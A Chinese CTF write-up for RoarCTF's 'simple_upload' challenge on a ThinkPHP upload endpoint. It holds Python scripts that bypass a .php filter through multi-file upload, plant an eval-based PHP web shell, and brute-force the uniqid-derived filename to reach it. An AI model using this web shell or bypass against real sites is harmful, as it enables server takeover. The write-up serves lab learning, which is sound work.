 RoarCTF-simple_upload
==========

* tip：该题目在BUUCTF的题库里有环境复现：https://buuoj.cn

题目描述
-----

打开题目链接之后，看到如下代码<br>
```php
 <?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller
{
    public function index()
    {
        show_source(__FILE__);
    }
    public function upload()
    {
        $uploadFile = $_FILES['file'] ;
        
        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }
        
        $upload = new \Think\Upload();// 实例化上传类
        $upload->maxSize  = 4096 ;// 设置附件上传大小
        $upload->allowExts  = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型
        $upload->rootPath = './Public/Uploads/';// 设置附件上传目录
        $upload->savePath = '';// 设置附件上传子目录
        $info = $upload->upload() ;
        if(!$info) {// 上传错误提示错误信息
          $this->error($upload->getError());
          return;
        }else{// 上传成功 获取上传文件信息
          $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
          echo json_encode(array("url"=>$url,"success"=>1));
        }
    }
} 
```
可以发现，该站是`ThinkPHP`写的一个文件上传网站。<br>

题目分析
-------

* 1、分析代码可知，该站可以通过`POST`方法实现上传文件功能，但是从第14行代码发现php后缀的文件被禁止上传，因此我们需要想办法绕过限制，上传`php小马`。<br><br>
* 2、该脚本通过`allowExts`方法设置上传类型，但是查阅资料得知这种使用方法是不对的，并不能限制上传的文件类型。<br><br>
* 3、upload()函数不传参时为多文件上传，整个`$_FILES`数组的文件都会上传保存，可以利用该属性通过一次访问上传多个文件。<br><br>
结合以上分析得知的内容可知，可以利用`$_FILES`数组上传多个文件来绕过对php的过滤。<br><br>

解题过程
-------

### 1、测试上传功能

首先编写python脚本向网站POST一个非php的文件，这里上传了一个`txt`文件，测试能否正常上传文件，下面是上传测试代码段：<br>
```python
url = "http://c85e5a48-c5f8-4a5b-9a30-6a81677fd75e.node3.buuoj.cn"
path = url + "/index.php/home/index/upload"
files = {"file":("ma.txt",'hello')}
r = requests.post(path, files=files)
print(r.text)
```
回显内容如下:<br>
```
{"url":"\/Public\/Uploads\/2019-10-24\/5db1841fb439d.txt","success":1}
```
能够成功上传文件。<br>
### 2、测试上传php文件：

```python
url = "http://c85e5a48-c5f8-4a5b-9a30-6a81677fd75e.node3.buuoj.cn"
path = url + "/index.php/home/index/upload"
files = {"file":("ma.txt",'hello'), "file1":("ma.php", '<?php eval($_GET["cmd"]);')}
r = requests.post(path, files=files)
```
回显内容如下：<br>
```
{"url":"\/Public\/Uploads\/2019-10-24\/5db18420027a3.txt","success":1}
{"url":"\/Public\/Uploads\/","success":1}
```
由回显可知，我们成功上传了php文件,但是并没有回显php的文件名<br>
* 其实在比赛做赛题的时候发现，直接上传php文件也是可以成功的，只不过也不会回显文件名。<br><br>
通过多次上传发现规律：新文件名是以`微秒`为单位转`十六进制`的字符串（后来在WP中了解到ThinkPHP中，文件名是通过`uniqid`函数生成的，`uniqid`函数是基于以微秒计的当前时间计算的）<br><br>
因此找到php的文件名，理论上就可以成功连接到我们上传的小马，而方法只有一个，那就是`爆破`。<br>

### 3、爆破php文件名

爆破代码如下：<br>
```python
import requests

url = "http://c85e5a48-c5f8-4a5b-9a30-6a81677fd75e.node3.buuoj.cn"
path = url + "/index.php/home/index/upload"
files = {"file":("ma.txt",'hello'), "file1":("ma.php", '<?php eval($_GET["cmd"]);')}
r = requests.post(path, files=files)
t1 = r.text.split("/")[-1].split(".")[0]
print (t1)

s = "1234567890abcdef"
for i in s:
    for j in s:
        for k in s:
            path = url + "/Public/Uploads/2019-10-24/" + t1[:-3] + "%s%s%s.php" % (i, j, k)
            r = requests.get(path, timeout=1)
            print(path)
            if r.status_code != 404:
                print(path)
                # print(r.text)
                break
```
由于我们是利用`$_FILES`数组的属性实现一次访问，上传两个文件，因此中间相隔的时间较短，利用以上单线程的爆破即可拿到php的文件名，然后常规操作连接小马拿flag。<br><br>
这里还有另一种方法是利用BP进行爆破，只需爆破文件名的后三个字符即可，其实原理是一样的，只是工具不同而已。<br>

但是在BUUCTF的站上使用BP爆破时会回显`429 Too Many Requests (太多请求)`,同样如果用自己的多线程代码去爆破也会遇到这个问题，是网站为了限制客户端的请求数量的配置，没办法，只能用单线程。<br>

思考总结
-------

在比赛的时候，由于不了解代码中一次访问可以上传多个文件的漏洞，便采用了上传三次文件的方法（第一次上传txt，第二次传php小马，第三次再传txt，以此得到命名范围），这就导致第一次和第三次拿到的文件名范围比较广，爆破困难，当时自己写了个蹩脚的多线程，最终也没能成功爆破出文件名...<br>
赛后看了几个WP关键步骤还是在于爆破文件名，我采用的这种方法也有人成功拿到了flag...不过正解应该还是利用漏洞一次上传多个文件来爆破吧。
